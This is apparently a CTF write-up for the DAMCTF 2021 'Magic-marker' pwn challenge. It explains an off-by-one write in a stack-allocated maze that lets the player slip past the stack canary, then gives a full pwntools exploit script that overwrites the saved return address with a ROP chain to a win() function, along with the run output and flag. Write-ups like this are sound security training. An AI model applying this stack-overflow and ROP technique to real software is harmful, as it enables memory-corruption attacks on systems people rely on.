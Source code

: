 ```yaml
---
layout: post
title:  "[DAMCTF] Magic-marker"
date:   "2021-11-07"
categories: Pwn
author: Eurus
---
```


This is the output of checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

First of all we can see that the program perform a string compare of the input with the string ```jump up and down``` 

```c
...
while ( 1 ){
    fgets(v5, 32, stdin);
    if ( !strcmp(v5, "jump up and down\n") )
        break;
    puts("I'm not sure I understand.");
}

puts(""Oh no! The ground.....  way out...\n")
play_maze();
```

The function ```play_maze()``` handle the 'Game', a random generated maze that has no exit.

```c
 char maze[51208]; // [rsp+10h] [rbp-C848h]
 
 ...

puts("This room has exits to the ");
maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
if ( (maze_data & 8) != 0 ){
  puts("North");
  maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
}
if ( (maze_data & 4) != 0 ){
  puts("East");
  maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
}
if ( (maze_data & 2) != 0 ){
  puts("South");
  maze_data = *(_DWORD *)&maze[1280 * line + 28 + 32 * column];
}
if ( (maze_data & 1) != 0 )
  puts("West");
if ( maze[1280 * line + 32 * column] )
  printf("On the wall is written: %s\n", &maze[1280 * line + 32 * column]);
printf("\nWhat would you like to do? (w - go north, a - go west, s - go south, d - go east, x - write something, m - show map, q - give up): ");
```

From the dump above (placed into the play_maze function) we can see that the maze is placed in the stack into an array of size 51208 byte. 
Each cell of the maze is stored into the array and the cell is of size 32 byte and the cell has a structure like this:

```text

cell:                          
                               
[-WALL-STRING----------------|FLAGS]

FLAGS: last nibble of cell and store
       where the wall are placed:
       1 = No wall
       0 = Wall

       0001 = West  free
       0010 = South free
       0100 = East  free
       1000 = North free

maze:
    [cell-1, cell-2, ... , cell-(40*40) ]

```

If we make the calculations we can see that ```40 * 40 * 32 = 51200``` and so the array is 8 bytes biggher than the maze.
When we move inside the maze basicaly we move the pointer to the array maze.

In the game we have a magic marker. We can use it with the x option. This is the code that write to the wall.

```c
puts("Your magnificently magestic magic marker magically manifests itself in your hand. What would you like to write?");
fgets(&maze[1280 * line + 32 * column], 33, stdin); // 1280 == 40*32 (cell in a row)
```
We can see that with the magic marker we can write over the last nibble of the cell that contain the wall data. 
So we can erase walls ang go where we want.

```python
pyl_clear_wall = p32(0)*7+p32(0xff)
```

by writing ```pyl_clear_wall``` we can erase all the wall from the maze and we can go also out of the maze (climbing the stack).

```
STACK OF play_maze

-000000000000C848 maze            db 51208 dup(?)
-0000000000000040 canary          dq 8 dup(?)             ; char
+0000000000000000  r

last cell of the maze]---8B---[canary]---8B---[-rbx--][-rbp--][-r12--][-r13--][-r14--][-r15--][-rip--]
                     |                               |                               |                
                     ^                               ^                               ^
                     cell[40*40+1]                   cell[40*40+2]                   cell[40*40+3]
```

we can see that if we have an rbx that permit us to go on East and West we can jump over the canary without
touch it and than continue util we can overwrite the rip saved into the stack.

Since PIE is not enabled this is easy. But where we can jump ? 
The organizers were so kind to give us a feature that prints out the flag!

```c
unsigned win(){
  ...
  puts("Congratulations! You escaped the maze and got the flag!");
  fd = fopen("flag", "r");
  fgets(str_tmp, 100, fd);
  puts(str_tmp);
  fclose(fd);
  ...
}
```
So the plan is easy! reach the bottom right of the maze find an rbx value that permit us to jump to East and West
without touching the canary, then jump again untill we reach the r15 recister saved into the stack and write with 
our magic marker a little ropchain to return into the win function.

This is the exploit.

```python
from pwn import *

context.binary = elf = ELF('./magic-marker')

p = remote('chals.damctf.xyz', 31313)
#p = elf.process()



p.sendlineafter(b'?\n',b'jump up and down')

p.sendlineafter(b'): ',b'm')

map_start = []
for i in range(0,81):
	map_start.append(str(p.recvline()[:-1])[2:-2])

line = ''
line_ind = 0
for i in range(0,81,2):
	if '*' in map_start[i+1]:
		line_ind = int(i/2)
		line = map_start[i+1]
		break 

cell = int((line.find('*')-2)/4)
print(cell)

pyl_clear_wall = p32(0)*7+p32(0xff)

for i in range(int(cell), 39):
	p.sendlineafter(b'): ',b'x')
	p.recvline()
	p.sendline(pyl_clear_wall)
	p.sendlineafter(b'): ',b'd')

for i in range(line_ind, 39):
	p.sendlineafter(b'): ',b'x')
	p.recvline()
	p.sendline(pyl_clear_wall)
	p.sendlineafter(b'): ',b's')

log.success('OOOK in 40:40 now!')

# here  corner down right
ret_g =  next(elf.search(asm('ret')))
win_payload = p64(0)+p64(ret_g)+p64(elf.sym.win)

p.sendlineafter(b'): ',b'x')
p.recvline()
p.sendline(pyl_clear_wall)
p.sendlineafter(b'): ',b'd')

log.info('Now out of the maze')
log.info('Praying!')

p.sendlineafter(b'): ',b'd')
p.sendlineafter(b'): ',b'x')
p.recvline()
p.sendline(pyl_clear_wall)
p.sendlineafter(b'): ',b'd')
p.sendlineafter(b'): ',b'x')
p.recvline()
p.sendline(win_payload)

p.sendlineafter(b'): ',b'a')
p.sendlineafter(b'): ',b'a')
p.sendlineafter(b'): ',b'a')

log.info('Back in this maze, shit! I quit!')
p.sendlineafter(b'): ',b'q')
dump = p.readall()
dump = str(dump).split('\\n')
log.success(dump[-3])

```

this is the output!
```text
(.pwn) eurus@node-03:~/Documenti/my_writeup/damctf-2021/magic_marker$ python3 expl.py 
[*] '/home/eurus/Documenti/my_writeup/damctf-2021/magic_marker/magic-marker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chals.damctf.xyz on port 31313: Done
15
[+] OOOK in 40:40 now!
[*] Now out of the maze
[*] Praying!
[*] Back in this maze, shit! I quit!
[+] Receiving all data: Done (11.82KB)
[*] Closed connection to chals.damctf.xyz port 31313
[+] dam{m4rvellOU5lY_M49n1f1cen7_m491C_m4rker5_M4KE_M4zE_M4n1PuL471oN_M4R91N4llY_M4L1c1Ou5}
```

